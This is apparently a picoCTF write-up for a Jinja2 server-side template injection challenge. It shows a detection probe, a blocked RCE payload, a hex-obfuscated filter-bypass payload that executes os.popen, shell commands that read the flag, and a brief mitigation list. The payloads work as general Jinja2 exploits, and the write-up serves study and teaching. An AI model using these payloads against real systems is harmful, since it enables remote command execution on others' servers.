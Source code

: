 # 🧨 SSTI2 — Jinja2 Template Injection to Shell Execution (picoCTF)

**Author:** picoCTF Team  
**Category:** Web Exploitation  
**Difficulty:** 🟠 Medium  
**Tags:** `SSTI`, `Jinja2`, `RCE`, `Template Injection`, `Filter Bypass`

---

## 📘 Description

> A server is rendering user input inside templates... can you make it execute a command and leak the flag?

---

## 🚀 Challenge Deployment


---

## 🔥 Vulnerability: Server-Side Template Injection (SSTI)

The target application renders unsanitized user input within Jinja2 templates. This allows arbitrary code execution if filters are not strict.

---

## 💣 Exploitation Steps

### 🧪 Step 1: Confirm Template Injection

```jinja2
{{7*'7'}}
```
📥 Response:

```
7777777
```
✅ Jinja2 confirmed.


### 🔐 Step 2: Attempt Classic RCE Payload (Blocked)
```jinja2

{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```
❌ Blocked by filter

### 🧠 Step 3: Bypass Filter with Obfuscated Payload
Inspired by SecGus PayloadsAllTheThings contribution

```jinja2

{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```
✅ Successfully bypassed the filter

### 🗂️ Step 4: Interact with Shell
```bash
ls
cat flag
```
📥 Output:
```
picoCTF{sst1_f1lt3r...}
```
| Property        | Impact                                           |
| --------------- | ------------------------------------------------ |
| Confidentiality | 🔴 Flag disclosure and potential secrets         |
| Integrity       | 🔴 Arbitrary command execution                   |
| Availability    | 🔴 Could lead to DoS if abused (e.g. fork bombs) |

🛡️ Mitigation
Use SandboxedEnvironment from Jinja2

Escape or reject template syntax entirely

Apply strict input validation before rendering

Never render user-controlled strings directly

